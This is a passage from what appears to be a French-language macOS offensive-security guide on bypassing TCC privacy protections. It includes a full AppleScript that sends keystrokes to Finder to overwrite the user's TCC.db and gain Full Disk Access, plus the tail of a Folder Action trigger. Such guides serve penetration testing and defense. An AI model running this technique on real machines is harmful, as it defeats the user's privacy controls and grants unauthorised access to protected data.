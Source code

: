 ```bash
EOD

# File operations in the folder should trigger the Folder Action
touch "$HOME/Desktop/file"
rm "$HOME/Desktop/file"
```
### Automation (SE) + Accessibilité (**`kTCCServicePostEvent`|**`kTCCServiceAccessibility`**)** à FDA\*

L'automatisation sur **`System Events`** + Accessibilité (**`kTCCServicePostEvent`**) permet d'envoyer **des frappes au clavier aux processus**. De cette manière, vous pourriez abuser de Finder pour modifier le TCC.db des utilisateurs ou pour donner FDA à une application arbitraire (bien que le mot de passe puisse être demandé pour cela).

Exemple de remplacement du TCC.db des utilisateurs par Finder :
```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
-- Open Finder
tell application "Finder" to activate

-- Open the /tmp directory
keystroke "g" using {command down, shift down}
delay 1
keystroke "/tmp"
delay 1
keystroke return
delay 1

-- Select and copy the file
keystroke "TCC.db"
delay 1
keystroke "c" using {command down}
delay 1

-- Resolve $HOME environment variable
set homePath to system attribute "HOME"

-- Navigate to the Desktop directory under $HOME
keystroke "g" using {command down, shift down}
delay 1
keystroke homePath & "/Library/Application Support/com.apple.TCC"
delay 1
keystroke return
delay 1

-- Check if the file exists in the destination and delete if it does (need to send keystorke code: https://macbiblioblog.blogspot.com/2014/12/key-codes-for-function-and-special-keys.html)
keystroke "TCC.db"
delay 1
keystroke return
delay 1
key code 51 using {command down}
delay 1

-- Paste the file
keystroke "v" using {command down}
end tell
EOF
```
### `kTCCServiceAccessibility` à FDA\*
